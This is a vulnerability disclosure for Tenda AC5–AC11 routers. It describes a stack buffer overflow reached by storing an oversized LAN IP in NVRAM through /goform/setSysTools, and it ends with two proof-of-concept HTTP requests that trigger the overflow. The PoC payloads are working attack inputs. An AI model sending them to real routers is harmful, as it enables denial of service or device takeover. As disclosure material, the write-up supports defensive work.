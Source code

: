 # Tenda Router Vulnerability

This vulnerability exists in  module `remoteWeb` of  `/goform/setSysTools`  and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

There is a stack buffer overflow vulnerability in the `sub_80073B88` function.(page  /goform/getSysTools in module remoteWeb)
![pic/Untitled.png](pic/Untitled.png)


In this function, it will use `nvram_get("lan_ipaddr");` to get an NVRAM variable, which is then placed in a `V2` variable. After that ,it will use `Strcpy (v6, v2);` to put V2 on V6 without any security check.

The  `lan_ipaddr`  NVRAM variable can be controlled in the `sub_8007DB28` function.
![pic/Untitled1.png](pic/Untitled1.png)


You can see that it's assigned by `lanIP_buf`.

![pic/Untitled2.png](pic/Untitled2.png)

Initially `lanIP_buf` is what we inputed, so the `lanIP_buf` NVRAM variable becomes manageable.

![pic/Untitled3.png](pic/Untitled3.png)

If `strcmp(v47,lanip_buf)` does not return a value of 0 and `sub_80086470` returns a value of 0, then the NVRAM variable `lan_ipaddr` will be set to the `lanip_buf` we inputed.

The `lanip_buf` is the input vector, while v47 is a fixed string, so it is easy to make them different so that the `strcmp` function does not return zero.

![pic/Untitled4.png](pic/Untitled4.png)

In function `sub_80086470`  ,if we want it returns zero, we must make `strlen(a1)` is bigger than 7, it's easy to make.And the return value of function `sub_801B8EA4` must be zero.

In function `sub_801B8EA4` , it will do IP legitimacy check .  But it will not check the length. 

Experimentally,  we can get a very long string like 192.168.1.0000000000000000000000000000000000000000000000000000000000000001 to pass the check .And after the check, function `sub_801B8EA4` will give v4 a 4-bytes ip address . If a1 can pass the check, v2 will be zero, but a1 will not get changed and will be set in nvram variable `lan_ipaddr`. So we can make `lan_ipaddr` variable in nvram is a very long string.

At this point, the NVRAM variable `lan_ipaddr` has been successfully controlled, and then we need to determine how to jump to `sub_80073B88` to trigger the vulnerability.

By looking at the xrefs to  the function `sub_80073B88` ，you can find such a chain of program calls.

`cgi_lib_set_remote_info` → `sub_80073D0C`→`sub_80073B88`

![pic/Untitled5.png](pic/Untitled5.png)

![pic/Untitled6.png](pic/Untitled6.png)

For the process `LABEL_14` in the `cgi_lib_set_remote_info` function, simply make the `remoteWebEn` input false and set a remote administration Web port that is not its own. For example, 9999.

![pic/Untitled7.png](pic/Untitled7.png)
![pic/Untitled8.png](pic/Untitled8.png)


Thus, by first setting `lan_ipaddr` in the lanCfg module of  `/goform/setSysTools`, and then setting `remoteWebEn` and `remoteWebPort` in the remoteWeb module of `/goform/setsystools`, An attacker can easily use elaborate overflow data to perform a denial-of-service attack or remote code execution.

## POC

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 500
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=lanCfg&lanIP=192.168.0.00000000000000000000000000000000000000000000000000000000000000000000001&lanMask=255.255.255.0&dhcpEn=true&lanDhcpStartIP=192.168.0.100&lanDhcpEndIP=192.168.0.200&lanDns1=192.168.0.1&lanDns2=
```

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 500
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=remoteWeb&remoteWebEn=true&remoteWebType=any&remoteWebIP=&remoteWebPort=9999
```